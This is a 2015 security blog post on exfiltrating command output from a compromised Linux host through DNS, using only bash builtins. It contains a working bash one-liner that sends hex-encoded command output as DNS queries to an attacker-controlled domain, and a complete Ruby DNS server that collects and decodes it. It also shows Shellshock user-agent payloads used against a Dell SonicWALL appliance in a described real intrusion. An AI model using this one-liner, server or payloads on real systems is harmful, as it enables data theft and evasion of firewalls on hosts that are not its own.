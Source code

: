 ```yaml
---
id: 260
title: Bash data exfiltration through DNS (using bash builtin functions)
date: 2015-01-19T20:25:47+01:00
author: wesley
layout: post
permalink: /2015/01/bash-data-exfiltration-through-dns-using-bash-builtin-functions/
---
```

After gaining &#8216;blind&#8217; command execution access to a compromised Linux host, data exfiltration can be difficult when the system i<img style="float: right;"  src="https://forsec.nl/wp-content/uploads/2015/01/binbash2.png" alt="binbash2" width="261" height="77" />s protected by a firewall. Sometimes these firewalls prevent the compromised host to establish connections to the internet. In these cases, data exfiltration through the DNS-protocol can be useful. In a lot of cases DNS-queries are not blocked by a firewall.  I&#8217;ve had a real life situation like this, which i will describe later on.

There are several oneliners on the internet available to exfiltrate command output through DNS. However, i noticed that these are using Linux applications (xxd, od, hexdump, etc), which are not always present on a minimalistic target system. I decided to create a oneliner, which is only using Bash builtin functionalities. The oneliner can be used whenever command execution is possible and Bash is installed on the compromised system.

<!--more-->

I&#8217;ve created the following bash command line which can be used on the attacked system to execute commands and send the results through DNS:

{% highlight bash%}
(LINE=`id`;domain=yourdomain.com;var=;while IFS= read -r -n 1 char;do var+=$(printf %02X "'${char:-$'\n'}'");done<<<$LINE;e=60;l=${#var};for((b=0;b<l;b+=60))do>&/dev/udp/$RANDOM.$b.${var:$b:$e}.$domain/53 0>&1;done;>&/dev/udp/$RANDOM.theend.$domain/53 0>&1)
{% endhighlight %}

<p class="p1">
  In order to use it, first modify the name servers of your domain, point them to the ip-address of the attacker machine. Also two values in the above oneliner need to be changed. The variable &#8220;LINE&#8221; needs to contain the command to execute, for example &#8220;ls -l /&#8221;. Also the variable &#8220;domain&#8221; needs to be modified, replace it with the domain which is pointed to your attacker machine. On the attacker machine, the following server side ruby script (dns.rb) can be started:
  {% highlight ruby %}
#!/usr/bin/ruby

require 'socket'

class UDPServer
  def initialize(port)
    @port = port
  end

  def start
    farray = []
    oarray = []
    @socket = UDPSocket.new
    @socket.bind('', @port)
    cmd = true
    while true
      data , soc = @socket.recvfrom(1024)
      idx = 12
      len = data[idx].ord
      domain = ""
      until len == 0 do
        domain += data[idx + 1, len] + "."
        idx += len + 1
        len = data[idx].ord
      end
      @socket.send(response(data), 0, soc[3], soc[1])
      farray << domain
      if domain.split(".")[-3] == "theend"
          farray.uniq!
          farray.pop
          for i in farray
              oarray << i.split(".")[-3]
          end
          comp = oarray.join()
          output = comp.gsub(/../) { |pair| pair.hex.chr }
          puts output
          farray = []
          oarray = []
      end
    end
  end

  def response(data)
    response = "#{data[0,2]}\x81\x00#{data[4,2] * 2}\x00\x00\x00\x00"
    response += data[12..-1]
    response += "\xc0\x0c\x00\x01\x00\x01"
    response += [60].pack("N")
    rdata = "1.1.1.1".split('.').collect(&:to_i).pack("C*")
    response += [rdata.length].pack("n")
    response += rdata
  end
end

server = UDPServer.new(53)
server.start
{% endhighlight %}
</p>

The script will retrieve the output of the executed command. The following screenshot shows the command executed on a targeted system:

[<img class="alignnone size-full wp-image-311" src="https://forsec.nl/wp-content/uploads/2015/01/dns_client3.png" alt="dns_client3" width="804" height="52" />](https://forsec.nl/wp-content/uploads/2015/01/dns_client3.png)

This screenshot shows the retrieved data by the attacker, using the dns.rb script:

[<img class="alignnone size-full wp-image-276" src="https://forsec.nl/wp-content/uploads/2015/01/dns_server.png" alt="dns_server" width="1138" height="114" />](https://forsec.nl/wp-content/uploads/2015/01/dns_server.png)

There might be improvements possible to the oneliner and script to make it more efficient. Or there might be some cases where the oneliner doesn&#8217;t work. Do not hesitate to comment on this blog if you have an improvement.

**Real life scenario**

I stumbled on a Dell SonicWALL Secure Remote Access (SRA) appliance which was vulnerable to Shellshock. I discovered this by sending the following user-agent, which returned a 200 HTTP response.

<pre>User-agent: () { :; }; /bin/ls</pre>

[<img class="alignnone size-full wp-image-287" src="https://forsec.nl/wp-content/uploads/2015/01/sslvpn_200.png" alt="sslvpn_200" width="965" height="189" />](https://forsec.nl/wp-content/uploads/2015/01/sslvpn_200.png)

When sending a user-agent with a non-existing binary, it returned a 500 HTTP response, which indicates something went wrong (it cannot execute the defined binary):

<pre>User-agent () { :;}; /bin/fake</pre>

[<img class="alignnone size-full wp-image-288" src="https://forsec.nl/wp-content/uploads/2015/01/sslvpn_500.png" alt="sslvpn_500" width="930" height="181" />](https://forsec.nl/wp-content/uploads/2015/01/sslvpn_500.png)

I was able to execute commands using the Shellshock vulnerability (confirmed by running /bin/sleep 60), however it was not responding with the command output on commands like &#8216;ls&#8217;. I discovered that all outgoing connections to the internet were blocked by the machine, only the DNS protocol was allowed, by resolving a hostname using the telnet executable. The appliance did not have any executables like xxd, hexdump etc. Therefor i decided to create the above line, which is not depending on these utilities, so can be used on any system containing Bash.

Dell is already aware of the Shellshock vulnerability in the older firmware versions of SRA. More details on how to patch the issue can be found at:

<a href="https://support.software.dell.com/product-notification/133206?productName=SonicWALL%20SRA%20Series">https://support.software.dell.com/product-notification/133206?productName=SonicWALL%20SRA%20Series</a>